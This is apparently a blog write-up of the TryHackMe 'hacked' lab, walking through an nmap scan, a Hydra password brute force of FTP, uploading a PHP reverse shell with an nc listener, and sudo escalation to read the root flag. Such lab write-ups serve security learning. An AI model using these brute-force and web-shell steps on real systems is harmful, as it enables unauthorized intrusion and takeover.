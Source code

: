 ```yaml
---
title: Try Hack Me - hacked
date: 2021-03-20 16:32 +0300
categories: [Try Hack Me]
<! -- tags: [linux,hydra]     # TAG names should always be lowercase -->
---
```


# Welcome

Hey there! Glad to see you again.

# Nmap

Scanning with Nmap.

<pre class="highlighter-rouge highlight">
Nmap scan report for 10.10.33.97
Host is up (0.072s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.5 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
</pre>


# Hydra

As we could see on pcap file the attacker did brute force with Hydra. Let's repeat.

<pre>
hydra -l jenny -P /opt/rockyou.txt ftp://10.10.33.97
==========================================================================================================================
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-24 15:29:35
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.33.97:21/
[21][ftp] host: 10.10.33.97   login: jenny   password: *********
1 of 1 target successfully completed, 1 valid password found
</pre>

We found the changed password. Great!

# FTP

On FTP service we can see <code class="language-plaintext highlighter-rouge">shell.php</code> file. Let's upload our own shell.

<pre>
put myshell.php
chmod 777 myshell.php
</pre>


# Web Page

Turn on listener

<pre>nc -lvnp 1234</pre>

On the browser run our shell 

<pre> 10.10.33.97/myshell.php </pre>

and we get the connection.


# Privilage Escalation
Let's change to user Jenny and see what she can do
<pre>
sudo jenny
Password: *********
sudo -l
Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
</pre>

Waw. No protection. Let's cat the flag.txt file

<pre>
sudo -i
cat /root/Reptile/flag.txt
</pre>


